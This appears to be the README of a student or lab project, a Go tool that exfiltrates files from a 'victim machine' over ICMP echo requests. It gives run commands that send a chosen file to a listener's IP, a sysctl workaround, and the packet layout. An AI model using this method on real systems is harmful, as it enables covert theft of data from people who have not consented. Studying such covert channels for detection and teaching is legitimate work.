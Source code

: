 # ICMP Extraction

The objective is to build an extractor using the ICMP protocol.
The emitter and listener are built with GO to allow compilation on almost any OS.

## Disclaimers
I had some issues running on some os like windows due to the protocol not being implemented. 
And when I tried to use is on debian based VM it didn't work until I ran `sudo sysctl -w net.ipv4.ping_group_range="0   2147483647"`

Sadly I noticed this to late and I couldn't solve it on time.

## Let's run it !
The emitter executable needs to be sent to the target machine. It doesn't matter how.

Run the listener with `./listener`. It requires `sudo` privileges. 

Run the emitter on the victim machine and specify the ip of the listener as first argument and the file to extract as the second. 
(ex: `./emitter 10.1.1.15 /path/to/my/file`)

On debian based system, you might run into an issue, sadly I noticed it to late and couldn't solve it but as a workaround, 
you can execute the command `sudo sysctl -w net.ipv4.ping_group_range="0   2147483647"` on the machine

Then you should see logs arrive in the listener process. When it says `Recieved File`, the file has been received. 
That's mean that the file has been completely extracted and is now located in the `results` directory with a `.raw` 
(warning, if the listener was ran with administrator privileges, you will need to change the access on the file !).

## How it works

### The emitter

The emitter installed of the victim machine will send repetitive requests to the host machine using the ICMP protocol.
Each request will have the following format :
![ICMP request structure](icmp_request_structure.png)

The header is a classical ICMP message header but the data is customised.
It is split into 3 sections.

1. The identifier of the file in 4 bytes. The identifier is generated to favor uniqueness
2. The request index. There is no delay between each request so to ensure the order, we add an index to each message
3. The payload. The par t of the file which is sent in this message.

Whe the whole file is sent, a stop message is sent with the same id as the package, 0 as the request index
and `###STOP###` (encoded in binary) as the payload.

### The listener

The listener listen for any icmp request. For non Stop message, it save the file in the `results` directory. It keeps
one file per request.
Whe the stop request is received. All the files are read and concatenate into a single file that will be located in
the `results` directory.

*Theoretically*, any number of file can be received at the same time as long as they can be handled by the listener.



